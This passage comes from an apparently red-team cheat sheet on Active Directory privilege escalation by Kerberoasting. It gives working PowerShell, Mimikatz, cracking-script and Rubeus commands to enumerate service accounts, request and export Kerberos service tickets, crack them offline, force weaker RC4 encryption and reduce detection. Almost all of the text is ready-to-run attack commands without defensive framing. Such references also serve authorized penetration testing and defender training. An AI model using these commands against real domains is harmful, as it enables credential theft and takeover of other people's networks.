 #### Pre-Windows 2000 Computers

Everything is explained [here](https://www.thehacker.recipes/ad/movement/domain-settings/pre-windows-2000-computers).

## Domain Privesc

### Kerberoast

#### Find users with SPN

```powershell
#PowerView
Get-NetUser -SPN

#ActiveDirectory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

#### Request ST

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SPN/<target>.domain.local"
```

Or `Request-SPNTicket` with PowerView

#### Export the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### Crack the ticket

Many options but this one works (also john, hashcat, etc...)

```batch
python.exe .\tgsrepcrack.py .\wordlist.txt .\ticket.kirbi
```

#### Rubeus

Rubeus can be used to perform all the attack, with more or less opsec

```powershell
#Kerberoast all the kerberoastable accounts
.\Rubeus.exe kerberoast

#Kerberoast a specified account
.\Rubeus.exe kerberoast /user:<target> /outfile:ticket.kirbi

#Kerberoast with RC4 downgrade even if the targets are AES enabled
#Tickets are easier to crack
.\Rubeus.exe kerberoast /tgtdeleg

#Kerberoast with opsec tgtdeleg trick filtering AES accounts
.\Rubeus.exe kerberoast /rc4opsec
```
